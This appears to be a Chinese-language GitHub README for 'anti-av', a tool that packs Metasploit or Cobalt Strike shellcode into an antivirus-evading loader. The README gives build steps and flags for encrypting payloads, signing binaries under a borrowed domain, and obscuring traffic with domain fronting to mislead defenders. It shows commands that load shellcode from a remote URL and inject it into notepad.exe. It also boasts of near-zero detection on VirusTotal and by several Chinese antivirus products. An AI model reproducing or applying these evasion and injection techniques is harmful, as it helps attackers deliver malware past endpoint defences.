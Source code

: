 # ANTI-AV



## 免责

本工具学习使用，溯源到b1gcat肯定不是我。



## 描述
*shellcode*免杀加载，*payload*支持**msf** (-f raw)和**cs**(payload raw)



## 安装

### Requirement

```bash
1、建议使用Mac或linux环境
2、安装交叉编译 mingw64
3、安装签名 openssl、osslsigncode
```



### anti-av

```bash
git clone https://github.com/b1gcat/anti-av.git
go build

Usage of ./anti-av:
  -domain string //签名binary时使用该域名。如果唯恐
        domain to be signed (default "baidu.com")
        
  -e    payload to be encrypted //布尔类型和-sc一起使用，对-sc指定的shellcode文件加密
  
  -ho string //远程加载shellcode时，通过隐藏流量（支持域前置）或混淆host达到干扰蓝队流量研判。
        host obfuscator (default "wwww.baidu.com")
        
  -l string //支持加载程序类型
        loader: sc,pe (default "sc")
        
  -os string //支持的操作系统
        OS: windows,linux (default "windows")
        
  -sc string //shellcode的文件或url地址。如果是url，则在运行时访问下载。
        encrypt payload by anti-av: support 'msfvenom -f raw' OR 'cs raw' OR remote url loading (default "payload.e")

  -inject //布尔类型，运行时shellcode注入notepad进程。
        inject payload to notepad.exe       

```



## 使用方案



| 形态              | 说明                    | 生成命令                                                     |
| ----------------- | ----------------------- | ------------------------------------------------------------ |
| 自解密shellcode   | 无                      | ./anti-av -sc ~/Desktop/payload.bin                          |
| 远程加载shellcode | 无                      | 1、./anti-av  -e -sc ~/Desktop/payload.bin    #加密shellcode<br />2、上传payload.e到公共下载服务<br />3、./anti-av -sc http://x.x.x.x/payload.e         #制作加载器 |
| 进程注入shellcode          | 会强制注入到notepad.exe | ./anti-av -sc ~/Desktop/payload.bin -inject 或<br />./anti-av -sc http://x.x.x.x/payload.e  -inject |
|  |  |  |



## 注意

* cs生成raw格式64位 payload，需要勾选x64

## 测试

| VT   | 火绒 | 360安全卫士 | 腾讯管家 |
| ---- | ---- | ----------- | -------- |
| 1/68 | √    | √           | √        |

